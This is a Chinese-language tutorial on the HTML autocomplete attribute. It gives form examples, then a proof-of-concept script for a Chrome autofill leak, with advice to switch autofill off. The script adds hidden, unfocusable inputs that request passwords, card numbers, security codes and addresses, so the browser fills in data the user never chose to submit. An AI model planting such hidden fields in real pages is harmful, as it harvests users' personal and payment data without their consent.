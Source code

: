 # AutoComplete | 自动填充

自动填充(Autofill )是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```html
<textarea
  name="shipping-address"
  autocomplete="shipping street-address"
></textarea>
<input
  type="text"
  name="shipping-city"
  autocomplete="shipping address-level2"
/>
<input
  type="text"
  name="shipping-state"
  autocomplete="shipping address-level1"
/>
<input
  type="text"
  name="shipping-country"
  autocomplete="shipping country-name"
/>
<input
  type="text"
  name="shipping-postal-code"
  autocomplete="shipping postal-code"
/>
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果: ![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/E2941AAA-E9DC-4A9A-AA10-8506044FBBB2.png)

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-WChv_tXK8rqUASVNxrqNSw.gif)

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  "name",
  "honorific-prefix",
  "given-name",
  "additional-name",
  "family-name",
  "honorific-suffix",
  "nickname",
  "username",
  "new-password",
  "current-password",
  "organization-title",
  "organization",
  "street-address",
  "address-line1",
  "address-line2",
  "address-line3",
  "address-level4",
  "address-level3",
  "address-level2",
  "address-level1",
  "country",
  "country-name",
  "postal-code",
  "cc-name",
  "cc-given-name",
  "cc-additional-name",
  "cc-family-name",
  "cc-exp",
  "cc-exp-month",
  "cc-exp-year",
  "cc-csc",
  "cc-type",
  "transaction-currency",
  "transaction-amount",
  "language",
  "bday",
  "bday-day",
  "bday-month",
  "bday-year",
  "sex",
  "url",
  "photo",
  "tel",
  "tel-country-code",
  "tel-national",
  "tel-area-code",
  "tel-local",
  "tel-local-prefix",
  "tel-local-suffix",
  "tel-extension",
  "impp"
];

emailField.addEventListener("focus", function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement("input");

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement("div"));

  // Hide the wrapper
  wrap.classList.add("hidden");
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener("focus", arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

- 进入 Chrome 设置：`chrome://settings/autofill`
- 关闭当前模态窗口
- 反选自动填充选项

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-NKyNK5fQWXeLHLCOD_ZDaA.png)
